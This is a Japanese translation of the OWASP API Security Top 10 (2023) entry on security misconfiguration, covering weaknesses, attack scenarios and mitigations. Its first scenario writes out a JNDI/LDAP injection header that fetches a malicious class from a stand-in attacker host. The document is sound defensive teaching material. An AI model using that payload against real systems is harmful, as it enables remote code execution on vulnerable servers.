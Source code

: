 # API8:2023 セキュリティの設定ミス (Security Misconfiguration)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
| - | - | - |
| API 依存 : 悪用難易度 **容易** | 普及度 **広範** : 検出難易度 **容易** | 技術的影響 **重度** : ビジネス依存 |
| 多くの場合、攻撃者はパッチを適用していない欠陥、共通のエンドポイント、安全でないデフォルト設定で実行しているサービス、保護されていないファイルやディレクトリを見つけて、不認可のアクセスやシステムの知識を得ようとします。このほとんどは公知であり、エクスプロイトが利用できることもあります。 | セキュリティの設定ミスはネットワークレベルからアプリケーションレベルまで API スタックのどのレベルでも起こりえます。不要なサービスやレガシーオプションなどの設定ミスを検出して悪用する自動ツールを利用できます。 | セキュリティの設定ミスは機密性の高いユーザーデータだけではなく、サーバー全体の侵害につながるシステムの詳細も流出する可能性があります。 |

## その API は脆弱か？

API は以下のような場合に脆弱となる可能性があります。

* API スタックのいずれかの部分で適切なセキュリティ堅牢化が行われていない場合や、クラウドサービスで不適切に設定された権限がある場合

* 最新のセキュリティパッチが適用されていない場合や、システムが古い場合
* 不要な機能が有効である場合 (HTTP verb、ログ機能など)
* HTTP サーバーチェーン内のサーバーが受信したリクエストを処理する方法に齟齬がある場合

* Transport Layer Security (TLS) がない場合
* セキュリティディレクティブやキャッシュコントロールディレクティブがクライアントに送信されない場合
* Cross-Origin Resource Sharing (CORS) ポリシーがない場合や適切に設定されていない場合
* エラーメッセージにスタックトレースが含まれている場合や、他の機密情報を公開している場合

## 攻撃シナリオの例

### シナリオ #1

ある API バックエンドサーバーは一般的なサードパーティのオープンソースログ記録ユーティリティによって書き込まれたアクセスログを維持します。これはプレースフォルダ拡張と JNDI (Java Naming and Directory Interface) ルックアップをサポートしており、デフォルトで有効になっています。
各リクエストに対して、新しいエントリが次のパターン `<method> <api_version>/<path> - <status_code>` でログファイルに書き込まれます。




悪意のあるアクターが以下の API リクエストを発行し、それがアクセスログファイルに書き込まれます。


```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

ログ記録ユーティリティの安全でないデフォルト設定と寛容なネットワークアウトバウンドポリシーにより、アクセスログに当該エントリを書き込むために、`X-Api-Version` リクエストヘッダの値を展開して、このログ記録ユーティリティは攻撃者のリモートコントロールサーバーから `Malicious.class` を取得して実行するでしょう。





### シナリオ #2

あるソーシャルネットワークウェブサイトではユーザーがプライベートな会話を続けることができる「ダイレクトメッセージ」機能を提供しています。
特定の会話の新しいメッセージを取得するために、ウェブサイトは以下の API リクエストを発行します (ユーザーによる操作は必要ありません) 。



```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

この API レスポンスには `Cache-Control` HTTP レスポンスヘッダが含まれていないため、プライベートな会話は最終的にウェブブラウザにキャッシュされ、悪意のあるアクターはファイルシステム内のブラウザキャッシュファイルからその会話を取得できます。




## 防止方法

API ライフサイクルには以下を含めます。

* 適切にロックダウンした環境を迅速かつ容易なデプロイメントにつながる反復可能な堅牢化プロセス

* API スタック全体の設定をレビューして更新するタスク。レビューにはオーケストレーションファイル、API コンポーネント、クラウドサービス (S3 バケットのパーミッションなど) を含めます。


* すべての環境における構成と設定の有効性を継続的に評価する自動化されたプロセス


さらに

* クライアントから API サーバーおよびあらゆるダウンストリームコンポーネントおよびアップストリームコンポーネントへのすべての API 通信は、内部 API であるか外部公開 API であるかに関わらず、暗号化された通信チャネル (TLS) で行うようにします。


* 各 API にアクセスできる HTTP verb を特定します。それ以外の HTTP verb (HEAD など) はすべて無効にします。

* ブラウザベースのクライアント (ウェブアプリのフロントエンドなど) からアクセスされることが予想される API は少なくとも以下のことを行う必要があります。

    * 適切な Cross-Origin Resource Sharing (CORS) ポリシーを実装します
    * 適用可能なセキュリティヘッダを含めます
* 受信するコンテンツタイプやデータフォーマットをビジネス要件や機能要件を満たすものに制限します。

* HTTP サーバーチェーンのすべてのサーバー (ロードバランサ、リバースプロキシ、フォワードプロキシ、バックエンドサーバなど) が受信リクエストを均一な方法で処理して、非同期問題を回避するようにします。


* 適用可能であれば、エラーレスポンスを含むすべての API レスポンスペイロードスキーマを定義して適用し、例外トレースやその他の価値ある情報が攻撃者に送り返されることを防ぎます。



## 参考資料

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### その他

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')][10]

* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
